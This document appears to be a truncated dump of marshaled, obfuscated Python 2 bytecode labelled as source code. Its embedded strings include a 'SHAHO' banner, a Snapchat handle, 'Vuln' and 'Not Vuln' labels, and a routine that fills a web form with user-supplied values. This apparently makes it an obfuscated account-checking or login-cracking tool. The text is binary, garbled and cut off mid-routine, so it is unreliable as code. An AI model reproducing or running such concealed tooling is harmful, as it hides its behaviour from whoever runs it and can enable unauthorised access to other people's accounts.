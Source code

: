 OPR/69.0.3686.77c\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00C\x00\x00\x00s\x16\x00\x00\x00d\x01\x00GHt\x00\x00j\x01\x00j\x02\x00\x83\x00\x00\x01d\x00\x00S(\x02\x00\x00\x00Ns\x17\x00\x00\x00\x1b[1;96m  \x1b[1;91 Exit : (\x03\x00\x00\x00t\x02\x00\x00\x00ost\x03\x00\x00\x00syst\x04\x00\x00\x00exit(\x00\x00\x00\x00(\x00\x00\x00\x00(\x00\x00\x00\x00s\x07\x00\x00\x00<daffa>t\x05\x00\x00\x00kelwa)\x00\x00\x00s\x04\x00\x00\x00\x00\x01\x05\x01c\x01\x00\x00\x00\x04\x00\x00\x00\x08\x00\x00\x00C\x00\x00\x00sS\x00\x00\x00d\x01\x00}\x01\x00d\x02\x00}\x02\x00x:\x00t\x00\x00D]2\x00}\x03\x00|\x02\x00d\x03\x00|\x01\x00t\x01\x00j\x02\x00d\x04\x00t\x03\x00|\x01\x00\x83\x01\x00d\x05\x00\x18\x83\x02\x00\x19\x17|\x03\x00\x177}\x02\x00q\x13\x00Wt\x04\x00|\x02\x00\x83\x01\x00S(\x06\x00\x00\x00Nt\x07\x00\x00\x00ahtdzjct\x00\x00\x00\x00t\x01\x00\x00\x00!i\x00\x00\x00\x00i\x01\x00\x00\x00(\x05\x00\x00\x00t\x01\x00\x00\x00xt\x06\x00\x00\x00randomt\x07\x00\x00\x00randintt\x03\x00\x00\x00lent\x05\x00\x00\x00cetak(\x04\x00\x00\x00t\x01\x00\x00\x00bt\x01\x00\x00\x00wt\x01\x00\x00\x00dt\x01\x00\x00\x00i(\x00\x00\x00\x00(\x00\x00\x00\x00s\x07\x00\x00\x00<daffa>t\x04\x00\x00\x00acak.\x00\x00\x00s\n\x00\x00\x00\x00\x01\x06\x01\x06\x01\r\x010\x02c\x01\x00\x00\x00\x05\x00\x00\x00\x07\x00\x00\x00C\x00\x00\x00s~\x00\x00\x00d\x01\x00}\x01\x00xA\x00|\x01\x00D]9\x00}\x02\x00|\x01\x00j\x00\x00|\x02\x00\x83\x01\x00}\x03\x00|\x04\x00j\x01\x00d\x02\x00|\x02\x00\x16d\x03\x00t\x02\x00d\x04\x00|\x03\x00\x17\x83\x01\x00\x16\x83\x02\x00}\x04\x00q\r\x00W|\x04\x00d\x05\x007}\x04\x00|\x04\x00j\x01\x00d\x06\x00d\x05\x00\x83\x02\x00}\x04\x00t\x03\x00j\x04\x00j\x05\x00|\x04\x00d\x07\x00\x17\x83\x01\x00\x01d\x00\x00S(\x08\x00\x00\x00NR\r\x00\x00\x00s\x03\x00\x00\x00!%ss\x07\x00\x00\x00\x1b[%s;1mi\x1f\x00\x00\x00s\x04\x00\x00\x00\x1b[0ms\x02\x00\x00\x00!0s\x01\x00\x00\x00\n(\x06\x00\x00\x00t\x05\x00\x00\x00indext\x07\x00\x00\x00replacet\x03\x00\x00\x00strR\n\x00\x00\x00t\x06\x00\x00\x00stdoutt\x05\x00\x00\x00write(\x05\x00\x00\x00R\x15\x00\x00\x00R\x16\x00\x00\x00R\x18\x00\x00\x00t\x01\x00\x00\x00jR\x10\x00\x00\x00(\x00\x00\x00\x00(\x00\x00\x00\x00s\x07\x00\x00\x00<daffa>R\x14\x00\x00\x007\x00\x00\x00s\x0e\x00\x00\x00\x00\x01\x06\x01\r\x01\x0f\x01(\x02\n\x01\x12\x01c\x01\x00\x00\x00\x02\x00\x00\x00\x03\x00\x00\x00C\x00\x00\x00sC\x00\x00\x00x<\x00|\x00\x00d\x01\x00\x17D]0\x00}\x01\x00t\x00\x00j\x01\x00j\x02\x00|\x01\x00\x83\x01\x00\x01t\x00\x00j\x01\x00j\x03\x00\x83\x00\x00\x01t\x04\x00j\x05\x00d\x02\x00\x83\x01\x00\x01q\x0b\x00Wd\x00\x00S(\x03\x00\x00\x00Ns\x01\x00\x00\x00\ng\x9a\x99\x99\x99\x99\x99\xb9?(\x06\x00\x00\x00R\n\x00\x00\x00R\x1d\x00\x00\x00R\x1e\x00\x00\x00t\x05\x00\x00\x00flusht\x04\x00\x00\x00timet\x05\x00\x00\x00sleep(\x02\x00\x00\x00t\x01\x00\x00\x00zt\x01\x00\x00\x00e(\x00\x00\x00\x00(\x00\x00\x00\x00s\x07\x00\x00\x00<daffa>t\x05\x00\x00\x00animeB\x00\x00\x00s\x08\x00\x00\x00\x00\x01\x11\x01\x10\x01\r\x01s\x01\x01\x00\x00\n\n    ____    _   _      _      _   _    ___  \n   / ___|  | | | |    / \\    | | | |  / _ \\ \n   \\___ \\  | |_| |   / _ \\   | |_| | | | | |\n    ___) | |  _  |  / ___ \\  |  _  | | |_| |\n   |____/  |_| |_| /_/   \\_\\ |_| |_|  \\___/ \n \n\n   SnapChat : sh4hom \n   \n\nc\x00\x00\x00\x00\x02\x00\x00\x00\x03\x00\x00\x00C\x00\x00\x00sF\x00\x00\x00d\x01\x00d\x02\x00d\x03\x00g\x03\x00}\x00\x00x0\x00|\x00\x00D](\x00}\x01\x00d\x04\x00|\x01\x00\x17Gt\x00\x00j\x01\x00j\x02\x00\x83\x00\x00\x01t\x03\x00j\x04\x00d\x05\x00\x83\x01\x00\x01q\x16\x00Wd\x00\x00S(\x06\x00\x00\x00Ns\x04\x00\x00\x00.   s\x04\x00\x00\x00..  s\x04\x00\x00\x00... s\x1e\x00\x00\x00\r\x1b[1;95m Busta wait :  \x1b[1;95mi\x01\x00\x00\x00(\x05\x00\x00\x00R\n\x00\x00\x00R\x1d\x00\x00\x00R \x00\x00\x00R!\x00\x00\x00R"\x00\x00\x00(\x02\x00\x00\x00t\x05\x00\x00\x00titikt\x01\x00\x00\x00o(\x00\x00\x00\x00(\x00\x00\x00\x00s\x07\x00\x00\x00<daffa>t\x03\x00\x00\x00tikK\x00\x00\x00s\n\x00\x00\x00\x00\x01\x0f\x01\r\x01\x08\x01\r\x01i\x00\x00\x00\x00s\r\x00\x00\x00\x1b[31mNot Vulns\t\x00\x00\x00\x1b[32mVulnc\x00\x00\x00\x00\x0b\x00\x00\x00\x06\x00\x00\x00C\x00\x00\x00s\xba\x02\x00\x00t\x00\x00j\x01\x00d\x01\x00\x83\x01\x00\x01y\x1a\x00t\x02\x00d\x02\x00d\x03\x00\x83\x02\x00}\x00\x00t\x03\x00\x83\x00\x00\x01Wn\x8c\x02\x04t\x04\x00t\x05\x00f\x02\x00k\n\x00r\xb5\x02\x01\x01\x01t\x00\x00j\x01\x00d\x01\x00\x83\x01\x00\x01t\x06\x00GHd\x04\x00d\x05\x00\x14GHd\x06\x00GHd\x07\x00GHt\x07\x00d\x08\x00\x83\x01\x00}\x01\x00t\x07\x00d\t\x00\x83\x01\x00}\x02\x00t\x08\x00\x83\x00\x00\x01y\x11\x00t\t\x00j\x02\x00d\n\x00\x83\x01\x00\x01Wn \x00\x04t\n\x00j\x0b\x00k\n\x00r\xb4\x00\x01\x01\x01d\x0b\x00GHt\x0c\x00\x83\x00\x00\x01n\x01\x00Xt\r\x00t\t\x00j\x0e\x00_\x0f\x00t\t\x00j\x10\x00d\x0c\x00d\r\x00\x83\x00\x01\x01|\x01\x00t\t\x00j\x11\x00d\x0e\x00<|\x02\x00t\t\x00j\x11\x00d\x0f\x00
